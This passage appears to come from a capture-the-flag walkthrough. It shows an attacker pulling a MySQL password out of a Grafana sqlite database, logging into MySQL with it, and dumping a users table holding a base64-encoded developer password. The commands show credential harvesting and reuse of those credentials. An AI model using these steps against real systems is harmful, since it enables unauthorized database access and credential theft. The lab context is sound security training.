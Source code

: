 ```shell
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-10-02 08:55:24|0|{}|1|uKewFgM4z
sqlite> 

```

Nice, username is `grafana` and the password is `dontStandSoCloseToMe63221!`. Now to connect to the MySQL database.

```bash
└─$ mysql -u grafana -h $IP -P 3306 -p                              
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 31
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 

```

I then started investigating the MySQL database:

```shell
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.066 sec)

MySQL [(none)]> use grafana;
Database changed
MySQL [grafana]> show tables;
Empty set (0.078 sec)

MySQL [grafana]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.067 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```